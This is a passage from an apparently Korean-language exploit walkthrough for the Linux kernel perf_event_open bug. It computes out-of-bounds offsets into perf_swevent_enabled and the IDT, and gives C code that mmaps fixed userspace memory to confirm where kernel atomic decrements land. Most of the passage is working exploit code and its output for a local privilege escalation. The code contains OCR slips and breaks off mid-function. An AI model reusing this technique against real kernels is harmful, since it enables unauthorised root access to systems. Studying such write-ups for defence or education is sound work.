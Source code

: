 ``` c calc2.c

    printf("atomic_dec(): %p\n", &perf_swevent_enabled[idx64]);
}
$ ./calc2
atomic_dec(): 0x381ef715c
```

그럼 i 가 `0x381ef715c - 0x380000000 == 0x1ef715c` 에서 `0x1ef715c/4 == 0x7bdc57`라는 걸 알 수 있다.

```
break_perf_event_open( -i + (((idt.addr & 0xffffffff) - 0x80000000)/4) + 16);
```

break_perf_event_open() 에 들어갈 값을 프로그램으로 검증해본다.

```
...
main()
{
    int *idt_addr = (int*)0xffffffff81df8000;
    int *target_addr = (int*)((uint64_t)idt_addr + (uint64_t)0x48);
    int *perf_swevent_enabled = (int*)0xffffffff81ef7160;

    int *calc_perf;

    int *peek;
    int *mem;

    int i;
    struct { 
        uint16_t limit; uint64_t addr; 
    } __attribute__((packed)) idt;

    uint32_t config = 0xffffffff;
    int32_t idx32;
    uint64_t uidx64;
    int64_t idx64;

    uint32_t *map = NULL;

    uint64_t a,b;

#define BASE    0x380000000
#define SIZE    0x010000000 // 256 mega
#define KSIZE   0x002000000 // 32 mega

    map = mmap((void*)BASE, SIZE, PROT_READ | PROT_WRITE,
            MAP_FIXED | MAP_ANONYMOUSE | MAP_PRIVATE, -1, 0);
    if (map != (void*)BASE) {
        fprintf(stderr,"mmap error\n");
        exit(1);
    }
    
    idx64 = config;
    peek = &perf_swevent_enabled[idx64];

    printf("atomic_dec(): %p\n", peek);
    *peek = 0x1;

    config = 0xfffffffe;
    idx64 = config;
    peek = &perf_swevent_enabled[idx64];
    printf("atomic_dec(): %p\n", peek);
    *peek = 0x1;

```